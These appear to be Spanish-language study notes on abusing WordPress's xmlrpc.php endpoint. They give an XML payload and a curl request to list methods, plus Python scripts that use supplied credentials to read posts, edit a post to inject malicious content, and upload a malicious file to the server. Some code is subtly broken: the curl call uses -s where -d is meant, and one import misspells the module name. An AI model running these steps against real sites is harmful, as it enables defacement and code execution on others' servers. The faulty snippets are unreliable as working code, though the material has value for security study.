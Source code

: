 ------
- Tags: #teoria #practica #basico 
- ------

# XMLRPC.php 

El **xmlrpc.php** en Wordpress es un archivo cxon extensión .php que permite realizar tareas remotas por el método conocido como POST en programación, como por ejemplo, publicar o editar artículos o entradas. 

-----

# Abuso de xmlrcp.php

Cuando nos referimos a abusar del **xmlrpc.php** hacemos alución al uso que podríamos llegar a obtener gracias a este archivo. 

## Listar métodos disponibles 

Si envíamos como data en una solicitud por POST el siguiente payload (Obtenido de la web oficial de [wordpress](https://codex.wordpress.org/XML-RPC/system.listMethods))

```xml
<methodCall>
  <methodName>system.listMethods</methodName>
  <params></params>
</methodCall>
```

Con herramientas como curl, podríamos ver en la respuesta del servidor un listado de los metodos que podemos usar para abusar de estos como la enumeración de usuarios, la edición de posts, etc. 

```bash
curl -s -X POST {url} -s '<methodCall><methodName>system.listMethods</methodName><params></params></methodCall>'
```

## Obtener los POSTS de la página

Para poder obtener los posts de la página y a la par verificar que las credenciales que tenemos que tener sean válidas, podríamos intentar obtener los posts de la web. Para esto podemos hacer uso del modulo **python-wordpress-xmlrpc** para con python hacer uso de un script y obtener los valores que necesitemos.

```bash
pip3 install python-wordpress-xmlrpc
```

 De esta manera podríamos hacer uso de este modulo para crear un script en python y obtener valores

```python
from wordpress_xmlrpc import Client 
from wordpress_xmlrpc.methods import posts
client = Client('{url_xmlrpc.php}', '{username}', '{password}')
post = client.call(posts.GetPosts())
```

De esta manera en la variable *post* ahora tendríamos todos los posts publicados. 

```bash
post # Listar los posts
dir(post[0]) # Listar los attributos del primer post 

# Listar atributos
post[0].link
post[0].id
```

## Editar POSTS de la página

Una vez que tengamos los posts en la página, tal vez exista una vía potencial para cambiar un codigo que se ejecuta en php u otras funcionalidades. 

```python
from wordpress_xmlrpc import Client 
from wordpress_cmlrpc.methods import posts
client = Client('{url_xmlrpc.php}', '{username}', '{password}')
post = client.call(posts.GetPosts())
 
malicious_post = post[0] # Podríamos quedarnos con el post que querramos editar
malicious_content = "{new_malicious_content}" 
malicious_post.content = malicious_content

client.call(posts.EditPost(malicious_post.id, malicious_post)) # A esta función se le debe pasar el identificador del post a modificar y el nuevo post modificado
```

De esta manera tal vez exista un post en la página el cual ejecute una función en php y haciendo uso de esto podríamos intentar cambiar esto para inyectar nuestros comandos maliciosos. 

## Subir archivos maliciosos

Otra cosa que podríamos intentar hacer es subir archivos maliciosos al sistema, de esta manera podríamos desplegar en una ruta de la web nuestro propio script malicioso.

```python
from wordpress_xmlrpc import Client
from wordpress_xmlrpc.methods import media 
client = Client('{url_xmlrpc.php}', '{username}', '{password}')

with open("{mcalicious_file_to_upload}", "r") as f:
	filename = f.read()

post_file = {'name':'{filename}','bits':filename,'type':'{content-type}'}

client.call(media.UploadFile(post_file))
```

De esta manera, si la web esta desplegada bajo la ruta **/var/www/html** en caso de que la subida del archivo sea exitosa, nos arrojara información como el path donde estará alojado este archivo. 

